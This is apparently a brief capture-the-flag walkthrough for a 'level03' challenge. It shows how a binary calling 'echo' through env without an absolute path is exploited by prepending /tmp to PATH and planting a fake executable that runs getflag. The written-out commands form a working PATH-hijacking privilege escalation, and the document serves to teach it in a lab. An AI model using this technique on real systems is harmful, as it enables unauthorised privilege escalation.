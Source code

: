 decompiled binary or $strings level03 shows that the command /usr/bin/env echo "Exploit me" is run inside the program
we can take advantage of the non absolute path to run another command like getflag at the first location in the $PATH

1) add /tmp to $PATH with : $export PATH=/tmp:$PATH

2) place a fake echo containing getflag in /tmp : $echo "getflag" > /tmp/echo

3) add execution rights : $chmod +x /tmp/echo

4) execute ./level03

getflag executed from /tmp gives the flag


doc : https://systemweakness.com/linux-privilege-escalation-using-path-variable-manipulation-64325ab05469
